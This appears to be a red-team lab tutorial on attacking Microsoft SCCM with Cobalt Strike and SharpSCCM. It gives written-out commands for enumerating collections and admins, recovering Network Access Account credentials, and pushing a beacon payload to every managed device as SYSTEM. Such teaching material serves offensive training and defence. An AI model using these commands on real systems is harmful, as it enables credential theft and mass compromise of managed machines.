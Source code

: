 # Configuration Manager

Microsoft Configuration Manager (aka ConfigMgr, MCM, or Systems Center Configuration Manager) is now under Microsoft's Intune brand umbrella. Most still refer to it as SCCM. Fundamentally, SCCM's role is to help with system management tasks such as software deployments, updates, and compliance configuration/reporting. The ability to connect multiple sites helps with scalability, particularly when dealing with different geographic locations. SCCM is an attractive target for attackers because given enough privilege, it can be used to push malicious scripts and applications to devices that it manages. 

The deployment in the RTO lab is only setup as a single site in order to demonstrate basic abuse primitives against Configuration Manager. There are other, including [this post](https://medium.com/specter-ops-posts/sccm-hierarchy-takeover-41929c61e087) that describes how a compromised primary site also compromises the entire hierarchy.

## Enumeration

First understand the deployment topology, which devices are being managed, and who the admins are. Given a foothold on a machine, begin by finding the management point and site code that it is linked to. This does not require any special privileges in the domain, in SCCM or on the endpoint.

    beacon> run hostname
    wkstn-2
    beacon> getuid
    [*] You are DEV\bfarmer
    beacon> execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe local site-info --no-banner

This enumeration uses WMI under the hood, done manually is:

    beacon> powershell Get-WmiObject -Class SMS_Authority -Namespace root\CCM | select Name, CurrentManagementPoint | fl

Can also check the DACL on the CN=System Management container in AD for machines that have Full Control over it (as this a pre-requisite of SCCM setup in a domain):

    beacon> execute-assembly SharpSCCM.exe get site-info -d cyberbotic.io --no-banner

Enumerating users, groups, computers, collections, and administrators, etc, cannot be done as a standard domain user. SCCM employs RBAC. A description of each role [can be found here](https://learn.microsoft.com/en-us/mem/configmgr/core/understand/fundamentals-of-role-based-administration). The scope of these roles can be restricted to individual collections as needed by admin. For example, computers from the DEV and CYBER domains can be grouped into their own collections. This can really impact an attacker's view of how SCCM is configured. If we enumerate all the collections as one user, we can see that both DEV and CYBER exist as well as their member counts.

    beacon> getuid
    [*] You are DEV\bfarmer
    beacon> execute-assembly SharpSCCM.exe get collections --no-banner
    MemberCount: 4

However, if we run the same enumeration as jking, a member of DEV\Support Engineers, we only see the DEV collection:

    beacon> make_token DEV\jking Qwerty123
    [+] Impersonated DEV\jking (netonly)
    beacon> execute-assembly SharpSCCM.exe get collections --no-banner
    MemberCount: 6

because though DEV\Developers are only "Read-Only Analysts", the role is scoped to both collections. DEV\Support Engineers are "Full Administrators" over the DEV collection but they have no roles that are scoped to the CYBER collection. When enumerating SCCM, you may only see a portion based on the user you're running the enumeration as.

Administrative users can be found using get class-instances SMS_Admin; this shows what is reflected in the Configuration Manger GUI.

    beacon> execute-assembly SharpSCCM.exe get class-instances SMS_Admin --no-banner

Members of these collections can be found using get collection-members -n <collection-name>:

    beacon> execute-assembly SharpSCCM.exe get collection-members -n DEV --no-banner

More information on each device can be obtained using get devices. There are some good ways to filter the output, such as searching by device name, -n, and only displaying the properties specified by -p.

    beacon> execute-assembly SharpSCCM.exe get devices -n WKSTN -p Name -p FullDomainName -p IPAddresses -p LastLogonUserName -p OperatingSystemNameandVersion --no-banner

Use SCCM as a form of user hunting, since it records the last user to login to each managed computer. The -u parameter will only return devices where the given user was the last to login:

    beacon> execute-assembly SharpSCCM.exe get devices -u nlamb -p IPAddresses -p IPSubnets -p Name --no-banner

These results are updated in SCCM every 7 days by default.

## Network Access Account Credentials

In a Windows environment, most computers are domain-joined and authenticate to SCCM Software Distribution Points (SDPs) (SMB shares) using their credentials. Network Access Account credentials (NAAs) are domain credentials used by computers not domain-joined. They are passed to the machines as part of the SCCM machine policies, which are encrypted using DPAPI and stored locally. If present, privileged users can retrieve these credential blobs via WMI or directly from disk and decrypt them to recover plaintext credentials. Use local naa with -m wmi or -m disk:

    beacon> getuid
    [*] You are DEV\bfarmer (admin)
    beacon> execute-assembly SharpSCCM.exe local naa -m wmi --no-banner

These credentials should only have read access to the SDP, but are often times over privileged (sometimes even domain/enterprise admins).

    beacon> make_token cyberbotic.io\sccm_svc Cyberb0tic
    [+] Impersonated cyberbotic.io\sccm_svc (netonly)
    beacon> ls \\dc-1.cyberbotic.io\c$
   
Or request a copy of the policy directly from SCCM using ```get naa``` (requires LA to obtain a copy of its SMS Signing and SMS Encryption certs).

## Lateral Movement

With Full or Application Administrator privileges, we can deploy scripts or applications to aid in lateral movement. To execute a command on every device in the DEV collection, do exec -n DEV -p <path>:

    beacon> execute-assembly SharpSCCM.exe exec -n DEV -p C:\Windows\notepad.exe --no-banner

SharpSCCM attempts to hide the command from the GUI, but the deployment is still visible until it completes. By default, the above will execute Notepad as the user currently logged into each machine. If a user is not logged in, then the command won't execute. We can force it to execute as SYSTEM using the -s parameter, and this will execute on every machine regardless of whether a user is currently logged in or not. As with GPO Abuse, we can upload and execute a DNS Beacon payload:

    beacon> execute-assembly SharpSCCM.exe exec -n DEV -p "C:\Windows\System32\cmd.exe /c start /b \\dc-2\software\dns_x64.exe" -s --no-banner

